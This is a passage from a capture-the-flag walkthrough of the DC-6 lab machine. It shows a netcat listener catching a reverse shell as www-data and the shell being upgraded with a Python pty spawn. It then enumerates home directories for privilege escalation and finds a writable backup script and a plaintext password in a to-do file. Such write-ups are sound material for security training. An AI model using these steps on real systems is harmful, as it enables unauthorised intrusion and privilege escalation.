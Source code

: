 ```
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [1.1.1.1] from (UNKNOWN) [2.2.2.2] 59614
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 91 columns 190
www-data@dc-6:/var/www/html/wp-admin$
```

## Privilege Escalation

Start by enumerating home directories

```
www-data@dc-6:/var/www/html/wp-admin$ ls -lRa /home
/home:
total 24
drwxr-xr-x  6 root   root   4096 Apr 26  2019 .
drwxr-xr-x 22 root   root   4096 Apr 24  2019 ..
drwxr-xr-x  2 graham graham 4096 Apr 26  2019 graham
drwxr-xr-x  2 jens   jens   4096 Apr 26  2019 jens
drwxr-xr-x  3 mark   mark   4096 Apr 26  2019 mark
drwxr-xr-x  2 sarah  sarah  4096 Apr 24  2019 sarah

/home/graham:
[...]

/home/jens:
total 28
[...]
-rwxrwxr-x 1 jens devs   50 Apr 26  2019 backups.sh

/home/mark:
total 28
[...]
drwxr-xr-x 2 mark mark 4096 Apr 26  2019 stuff

/home/mark/stuff:
total 12
[...]
-rw-r--r-- 1 mark mark  241 Apr 26  2019 things-to-do.txt

/home/sarah:
[...]

www-data@dc-6:/var/www/html/wp-admin$ cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html

www-data@dc-6:/var/www/html/wp-admin$ cat /home/mark/stuff/things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```
